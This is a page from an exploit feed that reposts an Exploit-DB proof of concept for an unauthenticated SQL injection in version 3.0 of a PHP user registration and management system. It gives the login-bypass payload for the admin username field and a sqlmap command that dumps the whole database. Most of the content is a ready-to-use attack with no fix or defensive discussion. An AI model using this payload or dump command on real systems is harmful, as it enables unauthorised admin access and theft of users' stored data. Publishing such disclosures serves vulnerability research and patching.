 ```yaml
---
title: User Registration &amp; Login and User Management System v3.0 - SQL Injection (Unauthenticated) exploit
url: https://sploitus.com/exploit?id=EDB-ID:51695&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-25
fetch_date: 2025-10-04T11:59:02.200769
---
```


# User Registration &amp; Login and User Management System v3.0 - SQL Injection (Unauthenticated) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for User Registration & Login and User Management System v3.0 - SQL Injection (Unauthenticated)

2023-08-24 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51695
# Exploit Title: User Registration & Login and User Management System v3.0 - SQL Injection (Unauthenticated)
# Google Dork: NA
# Date: 19/08/2023
# Exploit Author: Ashutosh Singh Umath
# Vendor Homepage: https://phpgurukul.com
# Software Link:
https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/
# Version: 3.0
# Tested on: Windows 11
# CVE : Requested

Proof Of Concept:

1. Navigate to the admin login page.

URL: http://192.168.1.5/loginsystem/admin/

2. Enter "*admin' -- -*" in the admin username field and anything
random in the password field.

3. Now you successfully logged in as admin.

4. To download all the data from the database, use the below commands.

  4.1. Login to the admin portal and capture the request.

  4.2. Copy the intercepted request in a file.

  4.3. Now use the below command to dump all the data

Command:  sqlmap -r <file-name> -p username -D loginsystem --dump-all

Thanks and Regards,

Ashutosh Singh Umath
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)